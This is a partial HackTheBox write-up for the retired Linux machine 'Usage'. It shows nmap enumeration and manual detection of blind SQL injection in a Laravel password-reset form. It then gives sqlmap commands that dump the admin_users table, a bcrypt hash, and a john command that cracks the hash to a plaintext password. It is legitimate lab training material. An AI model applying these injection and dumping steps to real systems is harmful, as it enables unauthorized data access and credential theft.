










# HackTheBox – Usage (Linux, Easy) (Retired) – Partial Writeup

## Table of Contents
- [General Info](#general-info)
- [Objectives](#objectives)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Initial Shell](#initial-shell)
- [Privilege Escalation](#privilege-escalation)
- [Post-Exploitation Proof](#post-exploitation-proof)
- [Cleanup](#cleanup)
- [Key Takeaways](#key-takeaways)
- [Conclusion](#conclusion)

---

## General Info
- **Machine name:** Usage  
- **Platform:** HackTheBox  
- **Release:** Retired  
- **Operating System:** Linux  
- **Tech stack:** Laravel, MySQL, Nginx  
- **Difficulty:** Easy  
- **Focus areas:** SQL Injection, Hash Cracking, Web Enumeration  

⚠️ **Note:** This is a **partial writeup**. Root privilege escalation could not be reproduced due to machine instability. Documentation includes all reproducible steps up to admin credential discovery.

---

## Objectives
- Enumerate web services and identify backend framework  
- Detect and exploit SQL Injection vulnerability  
- Extract sensitive data from the database  
- Crack administrator password hash  
- Attempt login to administrator interface  

---

## Enumeration

### Nmap Scan
Command:  
`nmap -sC -sV -oA usage_scan <target_IP>`

Open ports:  
- 22/tcp – OpenSSH 8.9p1  
- 80/tcp – nginx 1.18.0, redirecting to usage.htb  

**Figure 1 – Nmap scan showing SSH and HTTP open**  

---

### Web Enumeration
Accessing `http://usage.htb` displayed a **Laravel-based login page**.  

Inspection of cookies (`laravel_session`, `XSRF-TOKEN`) confirmed a Laravel backend.  

**Figure 2 – Login page served by Laravel**  

**Figure 3 – Burp Suite showing Laravel cookies**  

---

## Exploitation

### Vulnerability Discovery
Testing the **Forgot Password** form:  
- Input `'` in the email field triggered **500 Internal Server Error**  
- Input `' --` suppressed the error  

This confirmed a **boolean-based blind SQL Injection** vulnerability.  

**Figure 4 – Forgot password form with test input**  

**Figure 5 – 500 Internal Server Error confirming SQL injection**  

---

### SQLMap – Confirming Injection
Command:  
`sqlmap -r reset_request2.txt -p email --level 5 --risk 3 --technique=B --batch`

Result:  
- Parameter `email` is vulnerable  
- Backend DBMS: MySQL ≥ 8.0  
- Web server: Nginx 1.18.0  
- Framework: Laravel (PHP)  

**Figure 6 – sqlmap confirming boolean-based blind SQLi**  

---

### Database Enumeration
Command:  
`sqlmap -r reset_request2.txt -p email --dbs --batch`

Databases discovered:  
- information_schema  
- performance_schema  
- usage_blog  

**Figure 7 – sqlmap listing available databases**  

---

### Table Enumeration
Command:  
`sqlmap -r reset_request2.txt -p email -D usage_blog --tables --batch`

Tables discovered in `usage_blog`:  
- admin_users  
- users  
- password_reset_tokens  
- personal_access_tokens  
- blog, migrations, failed_jobs, etc.  

**Figure 8 – sqlmap listing tables in usage_blog**  

---

### Dumping Administrator Credentials
Command:  
`sqlmap -r reset_request2.txt -p email -D usage_blog -T admin_users --dump --batch`

Result:  
- **Username:** admin  
- **Password (bcrypt hash):** $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2  

**Figure 9 – sqlmap dumping data from admin_users table**  

---

### Password Cracking
Command:  
`john admin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`

Recovered password:  
- **admin : whatever1**  

**Figure 10 – john successfully cracking bcrypt hash**  

---

### Login Attempt
Attempted login at `http://usage.htb/login` with credentials:  
- Username: admin  
- Password: whatever1  

Result:  
- Login form accepted input but session reset occurred  
- Authentication could not be completed in current machine state  

**Figure 11 – login attempt with admin credentials**  

---

## Initial Shell
⚠️ **Not achieved** – no valid shell was obtained. All exploitation remained at the web application level.

---

## Privilege Escalation
⚠️ **Not attempted** – root access could not be reached due to incomplete admin login. Enumeration beyond SQLi was not possible in the current machine state.

---

## Post-Exploitation Proof
⚠️ **Not achievable** – administrator panel access and root escalation could not be reproduced. Root flag remains unretrieved.  

---

## Cleanup
- No modifications were made to the target  
- Only SQL enumeration and hash extraction performed  
- No cleanup required  

---

## Key Takeaways
- Blind SQL injection can be detected via subtle server errors (500) and confirmed with automated tools  
- Laravel applications often leak framework identifiers through cookies (`laravel_session`, `XSRF-TOKEN`)  
- Database extraction and hash cracking can yield high-value credentials even if login fails  
- Retired HTB machines may behave inconsistently; documenting both successful and blocked steps is essential  

---

## Conclusion
This retired HTB machine provided valuable practice in:  
- Service and web enumeration  
- SQL injection exploitation with sqlmap  
- Extracting and cracking bcrypt hashes  

⚠️ **Final Note:** Root access was not achieved. The machine remains **partially exploited**, but the methodology and results demonstrate strong penetration testing workflow and exploitation skills up to administrative credential recovery.
